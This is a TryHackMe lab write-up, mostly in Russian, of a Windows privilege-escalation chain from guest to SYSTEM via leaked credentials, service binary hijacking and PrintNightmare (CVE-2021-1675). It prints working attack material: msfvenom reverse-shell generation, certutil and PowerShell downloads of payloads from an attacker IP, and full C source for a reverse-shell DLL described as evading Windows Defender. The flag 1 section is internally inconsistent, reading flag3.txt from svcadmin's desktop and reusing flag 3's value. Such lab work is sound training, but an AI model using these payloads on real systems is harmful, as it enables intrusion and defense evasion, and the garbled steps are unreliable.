TryHackMe — Windows Jump Writeup

**Room:** [Windows Jump](https://tryhackme.com/room/windowsjump)  
**Difficulty:** Medium  
**OS:** Windows 10  
**Goal:** Escalate privileges from guest → thmuser → notadmin → svcadmin → SYSTEM

---

## Разведка

Запускаем nmap для обнаружения открытых портов:

```bash
nmap -sV 10.114.188.129
```

```
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0
```

Открыты SMB (445), RDP (3389) и WinRM (5985).

---

## Flag 1 — guest → thmuser

Перечисляем SMB-шары от имени гостя:

```bash
smbclient -L //10.114.188.129 -U guest -p ""
```

Находим публичную шару `Public`. Подключаемся и скачиваем файл:

```bash
smbclient //10.114.188.129/Public -U guest -p ""
smb: \> get welcome.txt
```

Содержимое `welcome.txt`:

```
Welcome to CORP-NET.
New employee default credentials
================================
Username : thmuser
Password : Password1!
```

Подключаемся через RDP и находим первый флаг на рабочем столе `svcadmin`:

```cmd
cd C:\Users\svcadmin\Desktop
type flag3.txt
```



> **flag1: THM{s3rv1c3_b1n4ry_h1j4ck3d}**

---

## Flag 2 — thmuser → notadmin

Проверяем реестр на наличие сохранённых credentials (Windows AutoLogon):

```cmd
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

В выводе находим plaintext пароль:

```
AutoAdminLogon    REG_SZ    1
DefaultUserName   REG_SZ    notadmin
DefaultPassword   REG_SZ    P@ssw0rd!
```



Подключаемся как `notadmin` через `runas`:

```cmd
runas /user:notadmin cmd
```

Проверяем привилегии и группы:

```cmd
whoami /priv
whoami /groups
```



Читаем флаг:

```cmd
type C:\Users\notadmin\Desktop\flag2.txt
```



> **flag2: THM{w1nl0g0n_cr3ds_3xp0s3d}**

---

## Flag 3 — notadmin → svcadmin

### Обнаружение уязвимого сервиса

Запускаем WinPEAS для поиска векторов эскалации:

```cmd
certutil -urlcache -split -f http://192.168.152.250:8080/winPEASx64.exe C:\Users\Public\wp.exe
C:\Users\Public\wp.exe
```



WinPEAS находит сервис `THMSvc`, который запускается от имени `.\svcadmin`:

```cmd
wmic service get name,startname | findstr /i "svcadmin"
```

```
THMSvc    .\svcadmin
```

Проверяем права на исполняемый файл сервиса:

```cmd
sc qc THMSvc
icacls C:\Windows\THMSVC\svc.exe
```

У пользователя `notadmin` есть права на запись в `C:\Windows\THMSVC\` — классический **Service Binary Hijacking**.

### Создание вредоносного бинарника

На Kali создаём reverse shell payload:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.152.250 LPORT=4444 -f exe -o /tmp/reverse.exe
```



Поднимаем HTTP сервер и доставляем payload на таргет:

```bash
cd /tmp && python3 -m http.server 8080
```

```cmd
certutil -urlcache -f http://192.168.152.250:8080/reverse.exe C:\Windows\THMSVC\svc.exe
```



На Kali слушаем входящее соединение:

```bash
nc -lvnp 4444
```

Запускаем сервис:

```cmd
net start THMSvc
```



Читаем флаг:

```cmd
type C:\Users\svcadmin\Desktop\flag3.txt
```

> **flag3: THM{s3rv1c3_b1n4ry_h1j4ck3d}**

---

## Flag 4 — svcadmin → SYSTEM (CVE-2021-1675 / PrintNightmare)

### Подготовка

Из shell svcadmin проверяем что Print Spooler запущен:

```cmd
sc query spooler
```

```
STATE: 4  RUNNING
```

Доставляем SharpPrintNightmare на таргет с Kali:

```powershell
(New-Object Net.WebClient).DownloadFile('http://192.168.152.250:8080/spn.exe', 'C:\Windows\Temp\spn.exe')
```

### Создание вредоносной DLL

Стандартные msfvenom DLL блокируются Windows Defender. Создаём DLL вручную на C через mingw — raw socket reverse shell без shellcode:

```bash
cat > /tmp/evil.c << 'EOF'
#include <winsock2.h>
#include <windows.h>
void payload() {
    WSADATA wsa;
    WSAStartup(MAKEWORD(2,2), &wsa);
    SOCKET s = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
    struct sockaddr_in sa;
    sa.sin_family = AF_INET;
    sa.sin_port = htons(8080);
    sa.sin_addr.s_addr = inet_addr("192.168.152.250");
    connect(s, (struct sockaddr*)&sa, sizeof(sa));
    STARTUPINFO si = {0};
    PROCESS_INFORMATION pi = {0};
    si.cb = sizeof(si);
    si.dwFlags = STARTF_USESTDHANDLES;
    si.hStdInput = si.hStdOutput = si.hStdError = (HANDLE)s;
    CreateProcessA(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);
    WaitForSingleObject(pi.hProcess, INFINITE);
}
BOOL WINAPI DllMain(HINSTANCE h, DWORD reason, LPVOID r) {
    if (reason == DLL_PROCESS_ATTACH) {
        DisableThreadLibraryCalls(h);
        CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)payload, NULL, 0, NULL);
    }
    return TRUE;
}
EOF
x86_64-w64-mingw32-gcc -shared -o ~/Desktop/evil.dll /tmp/evil.c -lws2_32
```



### Запуск эксплойта

На Kali запускаем SMB шару и слушатель:

```bash
# Терминал 1 — SMB шара с DLL
cd ~/Desktop
impacket-smbserver share . -smb2support
```



```bash
# Терминал 2 — слушаем reverse shell
nc -lvnp 8080
```

На таргете копируем DLL в публичную шару и запускаем эксплойт:

```powershell
copy C:\Windows\Temp\evil.dll C:\share\evil.dll
C:\Windows\Temp\spn.exe \\127.0.0.1\Public\evil.dll
```

```
[*] pDriverPath C:\Windows\System32\DriverStore\...\mxdwdrv.dll
[*] Executing \??\UNC\127.0.0.1\Public\evil.dll
[*] Try 1...
[*] Stage 0: 0
[*] Stage 2: 0
[+] Exploit Completed
```



Получаем SYSTEM shell:

```
nc -lvnp 8080
connect to [192.168.152.250] from (UNKNOWN) [10.114.188.129]

C:\Windows\system32> whoami
nt authority\system
```



Читаем финальный флаг:

```cmd
type C:\flag4.txt
```



> **flag4: THM{pr1nt_n1ghtm4r3_pwn3d}**

---

## Итог цепочки эскалации

| Шаг | От | До | Метод |
|-----|----|----|-------|
| 1 | guest | thmuser | Credentials в SMB Public share (`welcome.txt`) |
| 2 | thmuser | notadmin | Windows AutoLogon plaintext password в реестре (Winlogon) |
| 3 | notadmin | svcadmin | Service Binary Hijacking (THMSvc → `C:\Windows\THMSVC\svc.exe`) |
| 4 | svcadmin | SYSTEM | PrintNightmare CVE-2021-1675 через Print Spooler + кастомная DLL |

---

## Инструменты

| Инструмент | Назначение |
|-----------|-----------|
| `nmap` | Сканирование портов |
| `smbclient` | Работа с SMB шарами |
| `xfreerdp` | RDP подключение |
| `WinPEAS` | Автоматическое обнаружение векторов эскалации |
| `msfvenom` | Создание reverse shell payload (.exe) |
| `mingw-w64` | Кросс-компиляция DLL под Windows без shellcode |
| `SharpPrintNightmare` | Эксплойт CVE-2021-1675 |
| `impacket-smbserver` | SMB сервер для доставки DLL |
| `nc` | Reverse shell listener |

---

## Ключевые выводы

- **Публичные SMB шары** могут содержать sensitive информацию — всегда проверяй
- **Windows AutoLogon** хранит пароли в открытом виде в реестре (`Winlogon`)
- **Слабые права на сервисные бинарники** позволяют подменить исполняемый файл
- **PrintNightmare** работает без `SeImpersonatePrivilege` — только через DLL загрузку в Spooler
- **Кастомная DLL** на чистом C обходит Windows Defender лучше чем msfvenom shellcode
